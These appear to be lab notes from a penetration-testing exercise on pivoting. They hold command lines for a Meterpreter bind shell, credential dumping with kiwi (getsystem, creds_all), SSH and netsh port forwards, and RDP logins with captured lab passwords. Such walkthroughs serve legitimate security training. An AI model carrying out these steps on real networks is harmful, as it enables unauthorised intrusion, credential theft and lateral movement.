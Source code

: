 **This is super helpful for copying stuff to xfreerdp sessions:**  
You can start the session with the /drive parameter, ie:  
`xfreerdp /v:127.0.0.1:8687 /u:mlefay /p:'Plain Human work!' /drive:linux,/tmp`  
And `/tmp` on the attack box will be accessible in the RDP session, as like a mapped network drive  

Run the bind shell on the windows box  
Create a local port forward:  
`ssh -L 1239:172.16.5.35:8443 -i rsa_priv -N -f webadmin@10.129.201.127`  
Start MSF multi handler:  
`use exploit/multi/handler`  
`set payload windows/x64/meterpreter/bind_tcp`  
`set RHOST 127.0.0.1`  
`set LPORT 1239`  
`run`  
Then, in our meterpreter session:  
`load kiwi`  
`getsystem`  
`creds_all`  
And we successfully dump vfrank's password  

Now, setting up to allow ourselves to RDP to `172.16.6.25` from our attack box:  
Create a forward on 35 with (in a cmd prompt as admin):  
`netsh.exe interface portproxy add v4tov listenport=8086 listenaddress=172.16.5.35 connectport=3389 connectaddress=172.16.6.25`  
Then setup another local port forward with:  
`ssh -L 8686:172.16.5.35:8086 -i rsa_priv -N -f webadmin@10.129.201.127`  
Connect with xfreerdp:  
`xfreerdp /v:127.0.0.1:8686 /u:vfrank /p:'Imply wet Unmasked!'`  
and we get an RDP session all the way to `172.16.6.25`  
